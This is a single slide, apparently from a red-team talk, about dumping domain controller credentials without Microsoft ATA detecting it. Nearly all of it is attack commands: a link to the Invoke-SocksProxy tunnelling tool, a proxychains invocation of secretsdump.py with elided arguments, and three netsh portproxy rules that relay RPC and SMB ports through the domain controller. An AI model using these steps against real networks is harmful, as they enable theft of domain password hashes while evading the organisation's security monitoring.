

# MS ATA vs DC dumping – DC as proxy
https://github.com/p3nt4/Invoke-SocksProxy
proxychains ./secretsdump.py ....

netsh interface portproxy add v4tov4 listenport=2135 connectaddress=127.0.0.1 connectport=135
netsh interface portproxy add v4tov4 listenport=2445 connectaddress=127.0.0.1 connectport=445
netsh interface portproxy add v4tov4 listenport=50155 connectaddress=127.0.0.1 connectport=49155
55